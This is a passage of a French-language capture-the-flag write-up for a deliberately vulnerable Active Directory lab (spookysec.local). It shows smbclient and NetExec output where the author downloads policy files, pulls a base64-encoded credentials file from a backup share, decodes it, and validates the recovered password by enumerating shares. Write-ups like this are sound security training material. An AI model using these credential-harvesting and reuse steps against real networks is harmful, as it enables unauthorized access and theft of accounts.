 ```terminal
getting file \spookysec.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 23 as spookysec.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \spookysec.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as spookysec.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \spookysec.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2788 as spookysec.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (0.9 KiloBytes/sec) (average 0.3 KiloBytes/sec)
```
J'y trouve rien la dessus,  je vais alors voir le `backup`

```terminal
# smbclient \\\\10.10.237.76/backup -U svc-admin%management2005
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 14:08:39 2020
  ..                                  D        0  Sat Apr  4 14:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 14:08:53 2020
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> 
```
Je telecharge le fichier et a l'interieur je troue un `base64` que je peux decoder dans mon terminal


```terminal
─# cat backup_credentials.txt | base64 -d
backup@spookysec.local:backup2517860 
```
Un autre utilisateur et un mot de passe, 
- Verification avec `Netexec`


```terminal
└─# nxc smb $ip -u backup -p 'backup2517860' --shares
SMB         10.10.237.76    445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.237.76    445    ATTACKTIVEDIREC  [+] spookysec.local\backup:backup2517860 
SMB         10.10.237.76    445    ATTACKTIVEDIREC  [*] Enumerated shares
SMB         10.10.237.76    445    ATTACKTIVEDIREC  Share           Permissions     Remark
SMB         10.10.237.76    445    ATTACKTIVEDIREC  -----           -----------     ------
SMB         10.10.237.76    445    ATTACKTIVEDIREC  ADMIN$                          Remote Admin
SMB         10.10.237.76    445    ATTACKTIVEDIREC  backup                          
SMB         10.10.237.76    445    ATTACKTIVEDIREC  C$                              Default share
SMB         10.10.237.76    445    ATTACKTIVEDIREC  IPC$            READ            Remote IPC
SMB         10.10.237.76    445    ATTACKTIVEDIREC  NETLOGON        READ            Logon server share 
SMB         10.10.237.76    445    ATTACKTIVEDIREC  SYSVOL          READ            Logon server share 

```
